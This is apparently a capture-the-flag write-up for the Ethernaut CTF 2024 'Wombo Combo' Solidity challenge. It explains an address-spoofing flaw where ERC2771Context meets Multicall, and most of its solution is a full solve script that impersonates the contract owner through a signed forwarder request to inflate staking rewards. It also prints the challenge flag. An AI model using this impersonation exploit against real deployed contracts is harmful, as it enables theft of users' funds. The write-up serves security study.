 ```yaml
---
title: Blockchain - Wombo Combo
description: 2024 | Ethernaut CTF | easy-solidity
tags:
    - smart contract
    - solidity
    - multicall
---
```


## Description

You should stake your tokens to get more tokens!

> [Challenge Files](https://github.com/OpenZeppelin/ctf-2024/blob/0527d0e1ea6d729faf753057af6f24cc89584b4e/wombocombo/challenge/project/src/Challenge.sol)

## Solution

- To solve the challenge, we need to obtain enough rewards from the Staking contract and transfer reward tokens to `address(0x123)`
- The Staking contract inherits from Multicall and ERC2771Context
- The ERC2771Context overrides the `msgSender()` so that the actual caller will be the last 20 bytes of the call data if calls originating from a trusted forwarder

    ```js
    function _msgSender() internal view virtual override returns (address sender) {
        if (isTrustedForwarder(msg.sender)) {
            // The assembly code is more direct than the Solidity version using `abi.decode`.
            assembly {
                sender := shr(96, calldataload(sub(calldatasize(), 20)))
            }
        } else {
            return super._msgSender();
        }
    }
    ```

- The `multicall()` function can batch multiple calls in a single external call with user-provided data, which can be combined with the forwarder to impersonate any user calling the Staking contract


    ```js
    function multicall(bytes[] calldata data) external returns (bytes[] memory results) {
        results = new bytes[](data.length);
        for (uint256 i = 0; i < data.length; i++) {
            results[i] = Address.functionDelegateCall(address(this), data[i]);
        }
        return results;
    }
    ```

- The user's reward is related to `rewardRate` and is only updated in `notifyRewardAmount()` which can only be called by the owner
- We can first stake some tokens, impersonate the owner to increase the `rewardRate`, and then obtain enough rewards to solve the challenge :>

### Exploitation

Run the script twice to give some time to accumulate rewards:

1. Stake and impersonate the owner to notify the reward amount
2. Get reward tokens and transfer them to `address(0x123)`

```js
contract Solve is CTFSolver {
    function solve(address _challenge, address player) internal override {
        Challenge challenge = Challenge(_challenge);
        Forwarder forwarder = challenge.forwarder();
        Staking staking = challenge.staking();
        Token token = staking.stakingToken();
        Token reward = staking.rewardsToken();
        uint priv = vm.envUint("PLAYER");

        if (staking.totalSupply() > 0) {
            staking.getReward();
            reward.transfer(address(0x123), reward.balanceOf(player));
            return;
        }

        token.approve(address(staking), token.totalSupply());
        staking.stake(token.totalSupply());

        bytes[] memory data = new bytes[](1);

        data[0] = abi.encodePacked(
            staking.notifyRewardAmount.selector,
            uint256(100_000_000 ether),
            staking.owner()
        );

        Forwarder.ForwardRequest memory req = Forwarder.ForwardRequest(
            player, // from
            address(staking),   // to
            0,  // value
            300000, // gas
            0,  // nonce
            block.timestamp + 1 minutes,  // deadline
            abi.encodeCall(
                staking.multicall,
                (data)
            )
        );

        bytes32 separator = keccak256(
            abi.encode(
                keccak256(
                    "EIP712Domain(string name,string version,uint256 chainId,address verifyingContract)"
                ),
                keccak256(bytes("Forwarder")),
                keccak256(bytes("1")),
                block.chainid,
                address(forwarder)
            )
        );
        bytes32 forwarderTypeHash = keccak256(
            "ForwardRequest(address from,address to,uint256 value,uint256 gas,uint256 nonce,uint256 deadline,bytes data)"
        );
        bytes32 digest = ECDSA.toTypedDataHash(
            separator,
            keccak256(
                abi.encode(
                    forwarderTypeHash,
                    req.from,
                    req.to,
                    req.value,
                    req.gas,
                    req.nonce,
                    req.deadline,
                    keccak256(req.data)
                )
            )
        );
        (uint8 v, bytes32 r, bytes32 s) = vm.sign(priv, digest);
        bytes memory signature = abi.encodePacked(r, s, v);

        forwarder.execute(req, signature);
    }
}
```

### Flag

> OZCTF{M3t4_Tr4NS4ct10nS_aR4_n0T_S0_m3Ta}

## References

- [Arbitrary Address Spoofing Attack: ERC2771Context Multicall Public Disclosure](https://blog.openzeppelin.com/arbitrary-address-spoofing-vulnerability-erc2771context-multicall-public-disclosure)
